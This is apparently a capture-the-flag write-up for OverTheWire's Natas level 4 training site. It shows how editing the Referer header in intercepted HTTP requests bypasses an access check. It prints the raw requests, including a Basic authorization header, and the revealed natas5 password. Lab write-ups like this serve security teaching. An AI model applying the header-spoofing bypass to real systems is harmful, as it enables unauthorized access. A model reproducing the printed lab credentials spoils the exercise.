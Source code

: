 Username: natas5

URL:      http://natas5.natas.labs.overthewire.org

```html
<div id="content">

Access disallowed. You are visiting from "" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/"
<br>
<div id="viewsource"><a href="index.php">Refresh page</a></div>
</div>
```
when we click on refresh pages which calls index.php

```html
<div id="content">

Access disallowed. You are visiting from "http://natas4.natas.labs.overthewire.org/" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/"
<br>
<div id="viewsource"><a href="index.php">Refresh page</a></div>
</div>
```

So we need to edit refer in header using burp suite

Original Headers when I clicked on Refresh Page
```text
GET /index.php HTTP/1.1
Host: natas4.natas.labs.overthewire.org
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:55.0) Gecko/20100101 Firefox/55.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Referer: http://natas4.natas.labs.overthewire.org/
Cookie: __cfduid=d3b3b32b56dd20d295885a2d4872a2aff1506973072
Authorization: Basic bmF0YXM0Olo5dGtSa1dtcHQ5UXI3WHJSNWpXUmtnT1U5MDFzd0Va
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```
After Editing
```text
GET /index.php HTTP/1.1
Host: natas4.natas.labs.overthewire.org
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:55.0) Gecko/20100101 Firefox/55.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Referer: http://natas5.natas.labs.overthewire.org/
Cookie: __cfduid=d3b3b32b56dd20d295885a2d4872a2aff1506973072
Authorization: Basic bmF0YXM0Olo5dGtSa1dtcHQ5UXI3WHJSNWpXUmtnT1U5MDFzd0Va
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```

The Flag is here 
```html
<div id="content">

Access granted. The password for natas5 is iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq
<br/>
<div id="viewsource"><a href="index.php">Refresh page</a></div>
```
